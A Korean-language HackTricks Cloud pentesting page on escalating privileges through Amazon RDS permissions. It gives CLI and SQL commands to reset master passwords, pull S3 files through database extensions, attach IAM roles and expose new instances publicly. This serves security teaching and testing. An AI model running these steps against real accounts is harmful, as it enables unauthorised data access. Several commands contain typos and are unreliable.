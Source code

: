 # AWS - RDS Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 가진 공격자는 **마스터 사용자의 비밀번호를 수정**하고 데이터베이스 내부에서 로그인할 수 있습니다:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
데이터베이스에 **연락할 수 있는** 권한이 필요합니다(일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적인 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
\*\*`SELECT datname FROM pg_database;`\*\*를 실행하여 \*\*`rdsadmin`\*\*이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 접속한 것을 알 수 있습니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 액세스하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장 기능을 확인하여 이를 확인할 수 있습니다:

```sql
SELECT * FROM pg_extension;
```

만약 \*\*`aws_s3`\*\*와 같은 것을 찾으면 이 데이터베이스가 **S3에 대한 어떤 종류의 액세스**를 가지고 있다고 가정할 수 있습니다(다른 확장자로는 \*\*`aws_ml`\*\*과 \*\*`aws_lambda`\*\*이 있습니다).

또한, \*\*`aws rds describe-db-clusters`\*\*를 실행할 권한이 있다면 **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**을 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 액세스할 수 있도록 준비**된 것으로 가정할 수 있습니다. **역할의 이름**을 기반으로 (또는 역할의 **권한**을 얻을 수 있다면) 데이터베이스가 어떤 추가 액세스를 가지고 있는지 **추측**할 수 있습니다.

이제, **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

만약 **AWS 원시 자격 증명**을 가지고 있다면, 다음과 같이 사용하여 S3 데이터에 액세스할 수도 있습니다:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql는 S3에 액세스하기 위해 어떤 매개변수 그룹 변수도 변경할 필요가 없습니다.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내에서 쿼리 \*\*`SELECT User, Host FROM mysql.user;`\*\*를 실행하고 \*\*`rdsadmin`\*\*이라는 사용자가 있다면, **AWS RDS mysql db**에 있다고 가정할 수 있습니다.
{% endhint %}

mysql 내에서 \*\*`show variables;`\*\*를 실행하고, **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, \*\*`aurora_select_into_s3_role`\*\*과 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 액세스할 준비가 되어 있다고 가정할 수 있습니다.

또한, \*\*`aws rds describe-db-clusters`\*\*를 실행할 권한이 있다면, 클러스터에 **연관된 역할**이 있는지 확인할 수 있습니다. 이는 일반적으로 AWS 서비스에 대한 액세스를 의미합니다).

이제, **버킷 내의 파일을 읽기** 위해서는 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`와 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가**할 수 있습니다. 이로 인해 공격자는 인스턴스 내의 **민감한 데이터에 접근**하거나 데이터를 수정할 수 있을 수 있습니다.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 무단 수정.\
일부 DB는 추가 구성이 필요할 수 있으며, 예를 들어 Mysql은 파라미터 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 이미 존재하는 클러스터 내에 **새로운 인스턴스를 생성**하고 **IAM 역할**을 연결할 수 있습니다. 그러나 공격자는 마스터 사용자 암호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출시킬 수도 있습니다:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성**할 수 있습니다. 공격자는 그런 다음 인스턴스 내의 **민감한 데이터에 접근**하거나 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항([**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 연결된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스의 민감한 데이터에 대한 액세스 또는 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이를 통해 공격자는 인스턴스 내의 **민감한 데이터에 액세스**하거나 데이터를 수정할 수 있을 수 있습니다.

{% hint style="warning" %}
이 작업은 클러스터 외부에 있는 DB 인스턴스에서만 수행할 수 있습니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적인 영향**: RDS 인스턴스의 중요한 데이터에 대한 액세스 또는 무단 수정.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
